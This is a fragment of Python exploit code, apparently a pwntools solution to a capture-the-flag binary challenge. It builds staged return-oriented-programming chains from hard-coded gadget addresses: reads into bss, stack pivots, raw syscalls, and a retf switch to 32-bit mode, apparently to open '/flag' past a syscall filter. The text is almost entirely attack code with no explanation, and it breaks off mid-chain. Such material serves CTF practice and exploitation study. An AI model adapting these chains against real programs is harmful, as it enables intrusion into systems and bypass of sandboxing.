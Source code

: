 ```python
	payload += p64(0)
	payload += p64(0x0000000000401170) # read in bss

	# real coming rop
	payload += p64(0x0000000000401734) # : pop rdi ; pop rbp ; ret
	payload += p64(bss+0x1000-0x8)
	payload += p64(0)
	payload += p64(0x0000000000401170) # read in bss

	payload += p64(0x0000000000401730) # : pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(bss+0x1000)
	# raw_input("Break1")
	sl(payload)


	payload = ""
	payload += p64(0)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x40172f) # : pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(0x200)
	payload += p64(0x0000000000401102)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x402c07) # <libc_start_main_stage2+32>:	mov    rdx,r12
	payload += p64(0x0000000000401734) # : pop rdi ; pop rbp ; ret
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x0000000000401732) # : pop rsi ; pop r15 ; pop rbp ; ret
	payload += p64(bss+0x1000+0x200+0x200)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x0000000000401001) # : pop rax ; ret
	payload += p64(0)
	payload += p64(0x0000000000408865) # : syscall
	payload += p64(0x0000000000401730) # : pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(bss+0x1000+0x200+0x200)
	# raw_input("Break2")
	sl(payload)


	payload = ""
	payload += "/flag".ljust(8,"\x00")
	payload += p64(0)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x40172f) # : pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(0x7)
	payload += p64(0x0000000000401102)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x402c07) # <libc_start_main_stage2+32>:	mov    rdx,r12
	payload += p64(0x00000000004011ed) # : retf
	payload += p32(0x403072) #: pop rbx ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p32(0x23)
	payload += p32(bss+0x1000-0x8)
	payload += p32(0)
	payload += p32(0)
	payload += p32(0)
	payload += p32(0x40117b) # : pop rcx ; ret
	payload += p32(0)
	payload += p32(0x401001) # : pop rax ; ret
	payload += p32(0x5)
```